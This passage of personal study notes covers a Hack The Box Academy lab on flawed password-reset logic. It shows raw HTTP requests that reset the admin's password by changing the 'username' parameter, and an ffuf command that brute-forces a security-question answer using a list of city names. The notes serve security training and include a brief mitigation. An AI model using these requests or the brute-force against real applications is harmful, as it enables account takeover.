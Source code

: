As we can see, the username is contained in the form as a hidden parameter and sent along with the security response. Finally, we can reset the user's password:

![](Pasted%20image%2020250316183139.png)

The final request looks like this:

```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```

Like the previous request, the request contains the username in a separate POST parameter. Suppose the web application does properly verify that the usernames in both requests match. In that case, we can skip the security question or supply the answer to our security question and then set the password of an entirely different account. For instance, we can change the admin user's password by manipulating the `username` parameter of the password reset request:

```http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```

To prevent this vulnerability, keeping a consistent state during the entire password reset process is essential. Resetting an account's password is a sensitive process where minor implementation flaws or logic bugs can enable an attacker to take over other users' accounts. As such, we should investigate the password reset functionality of any web application closely and keep an eye out for potential security issues.

>[!Example]
>The Academy's exercise for this section

If I catch the request:

![](Pasted%20image%2020250316184017.png)

The incorrect response gives this message:

![](Pasted%20image%2020250316184450.png)

I know that the POST parameter is `security_response`, so I'll fuzz it with **ffuf**. But First I'll generate a list with cities:

```shell
git clone https://github.com/datasets/world-cities.git
cd world-cities
cat data/world-cities.csv | cut -d ',' -f1 > cities.txt

ffuf -w ./cities.txt -u http://94.237.59.30:34543/security_question.php -X POST -d "security_response=FUZZ" -b "PHPSSID=ih9idotupft99ua205rlcg2jr3" -H "Content-Type: application/x-www-form-urlencoded" -fc 200
```

